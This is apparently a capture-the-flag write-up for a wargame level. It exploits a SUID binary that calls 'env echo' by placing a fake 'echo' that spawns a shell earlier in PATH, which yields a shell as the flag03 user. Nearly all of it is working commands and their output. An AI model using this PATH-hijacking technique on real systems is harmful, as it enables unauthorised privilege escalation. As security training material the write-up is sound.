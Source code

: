 We start this level with a simple `ls` command and see a binary named `level03`. Running it:
```bash
./level03
```

It only prints:
```
Exploit me
```


We inspect the binary using `ls -l`:
```bash
ls -l level03
-rwsr-x---+ 1 flag03 level03 8627 Mar  5  2016 level03
```

The **SUID bit (`s`) is set**, meaning that when executed, it runs with the privileges of `flag03`. If we can exploit this, we might be able to switch to `flag03` and retrieve the next flag.

Using `strings level03`, we see a reference to:

```
/usr/bin/env echo Exploit me
```

The program **doesn't call `/bin/echo` directly** but instead runs `/usr/bin/env echo`. The key takeaway:
- `env` searches for `echo` in `$PATH`.
- We can **override `echo`** by placing a malicious script earlier in `$PATH`.

We create a fake `echo` script that spawns a shell:

```bash
echo -e '#!/bin/sh\n/bin/sh' > /tmp/echo
chmod +x /tmp/echo
```

This script does the following:
- `#!/bin/sh` → Ensures it runs in a shell.
- `/bin/sh` → Launches a new shell when executed.

Now, we **modify `$PATH`** so that our fake `echo` is found before the real one:

```bash
export PATH=/tmp:$PATH
```

We check if our `echo` is now being used:

```bash
which echo
```

Expected output:

```
/tmp/echo
```

Now, we run `level03` again:

```bash
./level03
```

Since the program runs `env echo`, it executes **our fake `echo`**, which spawns a shell **as `flag03`**.

To confirm our new identity:

```bash
whoami
```

Output:

```
flag03
```

Success! Now, we retrieve the flag:

```bash
getflag
```